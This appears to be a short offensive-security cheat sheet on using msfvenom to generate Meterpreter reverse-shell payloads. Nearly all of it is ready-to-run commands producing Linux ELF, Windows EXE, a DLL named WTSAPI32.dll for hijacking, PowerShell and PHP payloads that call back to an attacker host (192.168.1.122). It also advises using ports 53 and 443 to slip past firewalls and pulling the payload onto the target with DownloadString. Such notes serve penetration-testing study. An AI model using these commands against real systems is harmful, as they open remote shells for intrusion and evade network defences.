

msfvenom
If we have the possibilities to upload a shell on the target and we are not limited by a command line,
we can use
msfvenom that is part of the Metasploit Framework, which purpose is generate payloads
lport= <port> →
local port(
lport) where the client needs to connect has to be a common port like:
◇ 53 → DNS
◇ 443 → HTTPS
These are commonly used ports and are less suspicious to get around firewall restrictions :)
-p, --payload → Payload to use, must be the same of the on used on the attacker machine
-f, --format → Output format
 exe → will create a Windows executable.
elf → will create a Linux executable
psh → will create a powershell script you can execute right away
-o, --out → Save the payload in a output file
example msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=<local-host> lport=53 -f elf -o meter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.122 LPORT=2345 -f exe -o /home/kali/Desktop/exploit.exe
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.122 LPORT=4444 -f dll -o /home/kali/Desktop/WTSAPI32.dll
ps1(powershell) file that we can download from the target with DownloadString
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.122 LPORT=2345 -f psh-reflection -o /home/kali/Desktop/exploit.ps1
msfvenom -p php/meterpreter_reverse_tcp lhost=<local-host> lport=443 -o output.php